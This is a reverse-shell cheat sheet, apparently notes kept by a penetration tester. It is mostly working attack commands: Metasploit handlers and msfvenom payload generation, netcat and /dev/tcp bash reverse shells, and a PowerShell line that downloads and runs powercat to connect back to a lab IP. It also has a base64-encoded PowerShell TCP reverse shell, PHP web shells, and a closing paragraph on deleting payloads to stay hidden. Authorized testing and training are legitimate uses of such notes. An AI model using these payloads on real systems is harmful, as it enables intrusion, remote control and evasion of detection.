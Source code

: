 [Revshells](https://www.revshells.com)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
[PHP Reverse Shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $ip 443 >/tmp/f
bash -c 'bash -i >& /dev/tcp/$ip/443 0>&1'

python -c 'import pty; pty.spawn("/bin/sh")' 
stty raw -echo && fg
```


```bash
msfconsole -q -x 'exploit/windows/smb/smb_delivery; set LHOST 10.10.15.155; set LPORT 8443; run'
use exploit/windows/smb/smb_delivery

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=443 -f exe > shell.exe
```
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:80/powercat.ps1');powercat -c 10.10.14.3 -p 443 -e powershell"

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.237",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
powershell -e <payload>
```

```php
<?php system($_GET['cmd']) ?> 
<?php system($_REQUEST['cmd']) ?> 
<?php echo shell_exec($_GET['cmd']); ?>
<?php echo shell_exec($_REQUEST['cmd']); ?>
system("powershell -c curl http://10.10.14.6/nc.exe -o C:\\programdata\\nc.exe");
system("C:\\programdata\\nc.exe 10.10.14.6 1337 -e powershell.exe");
```


Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and `cover our tracks`. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. This will help our client and save us in the long run from having files discovered after an engagement period is over. In most cases, when attempting to gain a shell session with a target, it would be wise to establish a reverse shell and then delete the executed payload. Also, we must document every method we attempt, what worked & what did not work, and even the names of the payloads & files we tried to use. We could include a sha1sum or MD5 hash of the file name, upload locations in our reports as proof, and provide attribution.
